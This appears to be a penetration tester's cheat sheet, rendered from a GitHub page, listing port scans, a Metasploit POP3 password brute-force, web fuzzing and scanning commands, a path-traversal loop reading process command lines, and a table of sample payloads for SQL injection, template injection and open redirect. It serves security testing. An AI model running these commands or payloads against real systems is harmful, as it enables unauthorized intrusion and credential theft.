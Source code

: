 ```
naabu -host hackerone.com # https://github.com/projectdiscovery/naabu

nmap -sT -p- airplane.thm -T4
nmap -T4 -n -sC -sV -Pn -p-

msf > use auxiliary/scanner/...
msf auxiliary(scanner/pop3/pop3_login) > set rhosts 192.168.1.29
msf auxiliary(scanner/pop3/pop3_login) > set user_file user.txt
msf auxiliary(scanner/pop3/pop3_login) > set pass_file pass.txt
msf auxiliary(scanner/pop3/pop3_login) > set verbose false
msf auxiliary(scanner/pop3/pop3_login) > run
```

### Web
```
gobuster dir -u https://my.target.site -w /usr/share/wordlists/dirb/big.txt

nikto -h https://my.target.site -p [port]

nuclei -target https://my.target.site -rl 4 # default script with rate limit + https://github.com/projectdiscovery/fuzzing-templates
docker run --rm -it projectdiscovery/nuclei:latest -u http://localhost:8888
nuclei -u https://my.target.site -t myscript.yaml -t myscript_2.yaml <...> -t cves/ -t Exposure/

ffuf -u https://my.target.site/FUZZ -w /path/to/your/wordlist.txt -mc 200

nf -d example.com # https://github.com/0xKayala/NucleiFuzzer

katana -u https://tesla.com # https://github.com/projectdiscovery/katana
```

### AD

### Linux

### 

```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "https://my.target.site?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

|Findings     |Possible vector         |
|-------------|------------------------|
|/?file=      |LFI PathTraversal|
|/profile?id=2|IDOR|
|Content-Type: application/x-www-form-urlencoded <br>message={{7*7}}|SSTI|
|product_id=1001&quantity=-1|BuzLogic|
|username=admin&password=' OR '1'='1|SQLi|
|/redirect?url=http://malicious.com|OpenRedirect|
|Cookie: session=user1|Misconfig, UnsecureCookie|

### Next steps
https://book.hacktricks.xyz/

